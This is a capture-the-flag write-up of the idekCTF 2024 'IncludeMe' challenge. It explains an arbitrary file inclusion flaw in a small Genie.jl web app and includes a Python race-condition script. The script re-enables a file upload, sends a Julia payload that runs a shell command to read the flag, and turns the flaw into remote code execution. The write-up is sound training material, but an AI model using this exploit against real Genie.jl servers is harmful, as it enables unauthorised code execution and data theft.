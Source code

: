 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466R6QTS7DG%2F20250524%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250524T044818Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEEUaCXVzLXdlc3QtMiJGMEQCIAuFnWXBGemCb5h9QExWZpn1k61E0V2LXjwmEbiXBA0GAiAqr4XcTJfbV0lnOsr37zRTet3JiWpbfjLuLXGjsSbAGSqIBAj9%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMdiX09dv%2FixGE7bxKKtwDgBiWiFcXUe%2Flaz9%2FrvaqVVWzNBUoAmKCOgwVWtQCVRXz5s%2FNGiQkMvahA5pQ8qGLx62RTHUSJWQ%2Fg99ReVXme%2Fz%2FEvBCg3mInrGODBL3yXAEZR5FZSSUt10EgAtCwdvcTIUeMviJZqzKOFqLs%2F8XVQkGkpiqVGuzSR8sBPoGUudDr2QwsFPVE1HXWIj465sUztYU6nTwXtakuoHE4v0RO2ZwpO0G5mc9Qpstwh8wq9TXfhmrkiUu7zHg5MxeZ00NzCC%2BE8At9jHS4o%2FvN%2FEy4RBguiff3UjpE8iTeY%2BcLGUSMwagQYBJeNzPgHlxhWbG5l7p%2F0WVeF44wBn1kHoVaDByQRVL6y4JM%2Fk7XBDe%2FYTTHciv3TnSUdvbXJYxVD50EnmuaAP0xRAHv1Ez9yjxLhp9Vf3WxJQpe4ENncB5pKqhZZgsLe21PP3aQj%2BTZWiC9PLiKdBeNcxd3BmDOmpVtqiOTDoZ7nZBkuaQW%2BidsAdEI4aihGo8sZd0CNtuPWXBa41rFhKAL89bTPO%2BbYvk8VVKPAbPzsqy413Uc2d%2FJDXQxkmcWjY5YstYm3sqUO0Ew3aFt7MVm65WzX%2BrQ7VovQyP658QLIk%2FaMEZLVwtScABSxk0ltE1Z%2BG8EiwwzJLFwQY6pgFadjcFqUmYQ543FR1hziKX8P1pdGuRxGah77ArlL9J7wMjqcqGThgcAQlUJQdH7td6jmOlKZcv5yn4GieDHaOEYzZI41xwgVKBkArLepEc1azqQgyhBxovbOXveMNlcBIauVCoI%2Fcfmg6OaTgtRX6U%2FyE1EssvkrlUxNP5uTak6%2FGdBKK%2FK3Hh62JVRRpWulMmMvAwDb4muCnLfsdOWWPh0OSxbMPN\&X-Amz-Signature=9c1c72c1a3bd0fb752056ce4953874a3d670b6e7e76543466c3ae9d45247fe67\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
